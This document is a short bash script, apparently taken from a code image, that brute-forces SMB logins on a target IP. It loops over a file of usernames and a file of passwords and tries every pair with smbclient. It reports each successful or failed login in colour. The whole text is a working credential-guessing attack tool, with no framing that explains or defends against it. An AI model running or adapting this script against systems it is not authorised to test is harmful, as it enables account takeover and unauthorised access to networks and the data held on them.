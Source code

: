 
```bash
#!/bin/bash

# Define ANSI color codes
GREEN='\033[0;32m'
RED='\033[0;31m'
BLUE='\033[0;34m'
NC='\033[0m'  # No color (reset)


if [ $# -ne 3 ]; then
  echo "Usage: $0 <target_ip> <users_file> <passwords_file>"
  exit 1
fi

TARGET_IP="$1"
USERS_FILE="$2"
PASSWORDS_FILE="$3"


USERNAMES=()

# Read usernames in from file
while IFS= read -r username; do
  USERNAMES+=("$username")
done < "$USERS_FILE"

PASSWORDS=()

# Read passwords in from file
while IFS= read -r password; do
  PASSWORDS+=("$password")
done < "$PASSWORDS_FILE"


for user in "${USERNAMES[@]}"; do
  for pass in "${PASSWORDS[@]}"; do
    smbclient -L "//${TARGET_IP}" -U "${user}%${pass}" -c "quit" >/dev/null 2>&1
    if [ $? -eq 0 ]; then
      echo -e "${GREEN}Successful login: ${user}:${pass}${NC} (User: ${BLUE}${user}${NC})"
    else
      echo -e "${RED}Failed login: ${user}:${pass}${NC} (User: ${BLUE}${user}${NC})"
    fi
  done
done

```

